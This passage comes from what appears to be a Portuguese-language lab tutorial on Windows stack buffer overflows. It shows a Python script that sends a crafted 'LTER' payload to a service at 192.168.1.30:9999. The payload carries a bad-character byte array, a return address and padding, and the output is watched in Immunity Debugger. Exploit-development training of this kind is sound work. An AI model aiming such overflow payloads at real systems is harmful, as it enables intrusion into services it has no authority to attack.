 xpllter.py:

```python
#!/usr/bin/python3

import socket

# variaveis de conexao
ip = "192.168.1.30"
porta = 9999

# variaveis de payoad
offset = 3000

badchars = b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"

# payload
payload = b"LTER /."
payload += badchars
payload += b”B” * 4
#payload += b"A" * (2005 - len(badchars))
payload += b"\xd3\x11\x50\x62"
payload += b"C" * (offset - 2005 - 4)

# criando conexao
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip,porta))
s.recv(1024)

print("Enviando payload...")

s.send(payload + b"\r\n")
s.close()

print("Payload enviado.")
```

Monitorando com Immunity:

![Enumaração do comando.](/img/std/winbof/winbof-86.png)
